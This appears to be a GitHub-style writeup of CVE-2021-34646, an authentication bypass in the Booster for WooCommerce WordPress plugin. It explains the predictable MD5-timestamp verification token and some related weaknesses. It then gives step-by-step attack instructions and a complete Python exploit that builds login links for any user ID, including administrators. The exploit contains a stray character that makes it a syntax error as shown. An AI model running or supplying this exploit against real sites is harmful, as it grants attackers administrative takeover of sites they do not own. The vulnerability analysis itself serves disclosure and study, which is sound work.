



# CVE-2021-34646

Versions of the Booster for WooCommerce WordPress plugin up to and including 5.4.3 have a security vulnerability related to authentication bypass. This vulnerability stems from a weakness in the random token generation process within the "reset_and_mail_activation_link" function. Exploiting this vulnerability enables malicious actors to impersonate users and trigger email address verification for arbitrary accounts, including those with administrative privileges. Consequently, attackers can automatically log in as the targeted user, including site administrators.

## CVE Explanation

A critical vulnerability was discovered in the WordPress plugin known as "Booster for WooCommerce" (CVE-2021-34646). When the plugin's Email Verification module was activated along with the "Login User After Successful Verification" setting, it exposed a severe security flaw. This vulnerability allowed malicious actors to gain unauthorized access to the website by impersonating any user, ranging from regular users to administrative accounts. The root cause of this issue was a weakness in the token generation process within the "reset_and_mail_activation_link" function, located in the "~/includes/class-wcj-emails-verification.php" file.

The primary issue with the plugin centered around the generation of verification tokens required to validate email addresses. Specifically, the code employed a simplistic MD5 hash of the timestamp when the request was initiated. Consequently, an attacker could easily replicate the verification code for any user account by determining the timestamp of their request.

Moreover, additional design flaws were present on the website. One notable issue was the inadvertent disclosure of the software stack used by the webpage. This disclosure inadvertently assisted attackers in identifying potential vulnerabilities in the project.

<div style="text-align:center;">

</div>

Furthermore, there was an oversight in the password recovery process. When attempting to recover a password with only the user's email address and clicking the submit button, the system provided distinct success or error messages. This inconsistency in responses, regardless of whether the account existed or not, inadvertently leaked valuable information to potential attackers, thereby aiding them in targeting the website.

<div style="text-align:center;">

</div>

<div style="text-align:center;">

</div>

In summary, this critical vulnerability presented an opportunity for attackers to exploit the website with the objective of gaining administrative access and subsequently taking control of it.

## Attack step-by-step
To attack this vulnerability, all that is needed is to download the source code below. It is a python exploit that generates login tokens based on timestamps and constructs URLs that can potentially grant unauthorized access to the targeted WordPress site. To use the exploit, one must simply access the target websites REST API endpoint, as described in the source code, and retrieve user data, more specifically, their IDs.
Then, the hacker only needs to run the script with two parameters, the target website's URL and the desired user's ID, gaining access to the user's account.

## Appendix A - Source Code

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)


def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]j

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")

```
